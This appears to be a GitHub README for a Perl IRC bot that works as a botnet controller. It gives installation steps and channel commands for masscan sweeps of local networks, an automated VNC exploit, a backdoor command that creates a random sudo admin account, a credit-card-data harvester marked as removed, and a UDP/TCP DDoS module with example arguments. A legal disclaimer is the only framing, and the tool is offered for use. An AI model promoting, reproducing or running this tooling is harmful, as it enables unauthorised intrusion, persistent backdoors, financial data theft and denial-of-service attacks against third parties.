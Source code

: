 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.

This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.

# ---INSTALLATION---

## git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
## cd PerlIRCSSL_VNCbypass
## chmod +x *
# (if using Debian, Kali or Ubuntu) 
## ./debian-installer.sh
# (elseif running CentOS)
## ./centos-installer.sh

# ----COMMANDS----
# NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# ----------------
# NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
# ----------------
# Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 

# This will scan computer for credit card info and report in the channel. (REMOVED, will see if I put it back on later...)
@.ccplz
# This will give you the current running version. 
@.version

# DDoS Tool has been fixed and hits hard!
# @.ddos ip port UDP?y/n times threads
Example: @.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos.
@.ddos.stop

# ---NOTE---
# In order for bot to work you need to be operator in the channel, it also must be registered with services.
# Follow the step-by-steps installations and you are done.
# ENJOY!
